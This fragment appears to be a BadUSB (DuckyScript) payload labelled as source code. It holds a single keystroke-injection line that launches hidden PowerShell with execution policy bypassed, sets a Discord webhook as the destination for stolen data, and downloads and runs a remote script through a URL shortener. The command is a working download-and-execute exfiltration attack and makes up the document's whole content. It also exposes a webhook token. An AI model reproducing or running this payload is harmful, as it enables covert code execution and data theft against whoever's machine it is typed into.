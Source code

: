 STRING powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1217926553502220349/as9odv8QBqZhltK0mw1Mab0036hud5L0MbUugypXDFgE-iNL82CX5iiHILlGSSXYtFZO'; irm https://is.gd/bw_ex_to_dc | iex
